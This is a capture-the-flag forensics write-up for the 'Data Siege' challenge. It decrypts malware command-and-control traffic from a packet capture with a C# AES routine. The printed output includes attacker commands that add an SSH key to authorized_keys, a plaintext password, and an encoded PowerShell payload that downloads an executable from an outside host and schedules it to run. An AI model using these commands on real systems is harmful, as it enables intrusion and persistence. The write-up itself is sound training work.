



# Forensics: data-siege
solver: [ProfessorZak](https://github.com/ProfessorZak)  
writeup-writer: [ProfessorZak](https://github.com/ProfessorZak) + [L3d](https://github.com/imL3d)
___
**Author:** Nauten  
**Description:**
> It was a tranquil night in the Phreaks headquarters, when the entire district erupted in chaos. Unknown assailants, rumored to be a rogue foreign faction, have infiltrated the city's messaging system and critical infrastructure. Garbled transmissions crackle through the airwaves, spewing misinformation and disrupting communication channels. We need to understand which data has been obtained from this attack to reclaim control of the communication backbone. Note: Flag is split into three parts.

**files (from [HTB](https://github.com/hackthebox/cyber-apocalypse-2024)):** [forensics_data_siege.zip](https://github.com/hackthebox/cyber-apocalypse-2024/raw/main/forensics/%5BMedium%5D%20Data%20Siege/release/forensics_data_siege.zip)

In this challenge we are given a network capture file, “capture.pcap”. We need to analyse this capture file, and extract the flag.

## Solution 🍝


On first examination we see that this is a `TCP/IP` and `HTTP` communication. Nothing really pops on a first glace, so this time we decide to use a PCAP online analysis tool, to help us speed up the process. We upload  the capture to [A-Packets](https://apackets.com/). This helps us find an HTTP request for downloading and executable:  


  

So let's download it as well!  
We can see its a `.NET windows executable`, so we can decompile it using [dnSpy](https://github.com/dnSpy/dnSpy).  
During the same analysis that gave us the EXE, we notice that on port `1234`, there are unusual strings that seems like they are encoded in base64, but they cannot be decoded on properly in that way. They may be related to the executable, but we leave them to be at this point.  
  
After decompiling the executable we notice an interesting function: `Encrypt`:  

  

And upon further investigation we can see the constants that are being used by the program:  

  

So we were right!  
The traffic on port `1234` is being encrypted, so let's decrypt it!  
We create a bodged C# code, and the only thing left is to input each base64 encoded string from the pcap file, and decrypt them:    

```C#

using System.IO;
using System.Security.Cryptography;
using System.Text;
using System;

public class Main
{
    public static void Main(string[] args)
    {
        string cipherText = "";
        string encryptKey = "VYAemVe03zUDTL6N62kVA";
        byte[] array = Convert.FromBase64String(cipherText);
        using(Aes aes = Aes.Create())
        {
            Rfc2898DeriveBytes rfc2898DeriveBytes = new Rfc2898DeriveBytes(encryptKey, new byte[]
            {
                86,
                101,
                114,
                121,
                95,
                83,
                51,
                99,
                114,
                51,
                11,
                95,
                83
            });
            aes.Key = rfc2898DeriveBytes.GetBytes(32);
            aes.IV = rfc2898DeriveBytes.GetBytes(16);
            using (MemoryStream memoryStream = new MemoryStream())
            {
                using (CryptoStream cryptoStream = new CryptoStream(memoryStream, aes.CreateDecryptor(), CryptoStreamMode.Write)) 
                {
                    cryptoStream.Write(array, 0, array.Length);
                    cryptoStream.Close();
                }
                cipherText = Encoding.Default.GetString(memoryStream.ToArray());
            }
        }
        Console.WriteLine(cipherText);
    }
}

```

The output is bunch of cmd commands to run. These are the important parts out of it:
```
cmd;C:\;echo ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCwyPZCQyJ/s45lt+cRqPhJj5qrSqd8cvhUaDhwsAemRey2r7Ta+wLtkWZobVIFS4HGzRobAw9s3hmFaCKI8GvfgMsxDSmb0bZcAAkl7cMzhA1F418CLlghANAPFM6Aud7DlJZUtJnN2BiTqbrjPmBuTKeBxjtI0uRTXt4JvpDKx9aCMNEDKGcKVz0KX/hejjR/Xy0nJxHWKgudEz3je31cVow6kKqp3ZUxzZz9BQlxU5kRp4yhUUxo3Fbomo6IsmBydqQdB+LbHGURUFLYWlWEy+1otr6JBwpAfzwZOYVEfLypl3Sjg+S6Fd1cH6jBJp/mG2R2zqCKt3jaWH5SJz13 HTB{c0mmun1c4710n5 >> C:\Users\svc01\.ssh\authorized_keys
cmd;C:\;

...

Password: Passw0rdCorp5421
2nd flag part: _h45_b33n_r357

...

```

And a base64 encoded powerhsell payload:  
```ps1
 powershell.exe -encoded "CgAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAKQAuAEQAbwB3AG4AbABvAGEAZABGAGkAbABlACgAIgBoAHQAdABwAHMAOgAvAC8AdwBpAG4AZABvAHcAcwBsAGkAdgBlAHUAcABkAGEAdABlAHIALgBjAG8AbQAvADQAZgB2AGEALgBlAHgAZQAiACwAIAAiAEMAOgBcAFUAcwBlAHIAcwBcAHMAdgBjADAAMQBcAEEAcABwAEQAYQB0AGEAXABSAG8AYQBtAGkAbgBnAFwANABmAHYAYQAuAGUAeABlACIAKQAKAAoAJABhAGMAdABpAG8AbgAgAD0AIABOAGUAdwAtAFMAYwBoAGUAZAB1AGwAZQBkAFQAYQBzAGsAQQBjAHQAaQBvAG4AIAAtAEUAeABlAGMAdQB0AGUAIAAiAEMAOgBcAFUAcwBlAHIAcwBcAHMAdgBjADAAMQBcAEEAcABwAEQAYQB0AGEAXABSAG8AYQBtAGkAbgBnAFwANABmAHYAYQAuAGUAeABlACIACgAKACQAdAByAGkAZwBnAGUAcgAgAD0AIABOAGUAdwAtAFMAYwBoAGUAZAB1AGwAZQBkAFQAYQBzAGsAVAByAGkAZwBnAGUAcgAgAC0ARABhAGkAbAB5ACAALQBBAHQAIAAyADoAMAAwAEEATQAKAAoAJABzAGUAdAB0AGkAbgBnAHMAIAA9ACAATgBlAHcALQBTAGMAaABlAGQAdQBsAGUAZABUAGEAcwBrAFMAZQB0AHQAaQBuAGcAcwBTAGUAdAAKAAoAIwAgADMAdABoACAAZgBsAGEAZwAgAHAAYQByAHQAOgAKAAoAUgBlAGcAaQBzAHQAZQByAC0AUwBjAGgAZQBkAHUAbABlAGQAVABhAHMAawAgAC0AVABhAHMAawBOAGEAbQBlACAAIgAwAHIAMwBkAF8AMQBuAF8ANwBoADMAXwBoADMANABkAHEAdQA0AHIANwAzAHIANQB9ACIAIAAtAEEAYwB0AGkAbwBuACAAJABhAGMAdABpAG8AbgAgAC0AVAByAGkAZwBnAGUAcgAgACQAdAByAGkAZwBnAGUAcgAgAC0AUwBlAHQAdABpAG4AZwBzACAAJABzAGUAdAB0AGkAbgBnAHMACgA=" 
```  
When extracting the base64 payload we find the 3d flag part (the first 2 are in the commands we found above).  
Concatenating all of them we get the flag 🚩:  
`HTB{c0mmun1c4710n5_h45_b33n_r3570r3d_1n_7h3_h34dqu4r73r5}`  
  
Yippe!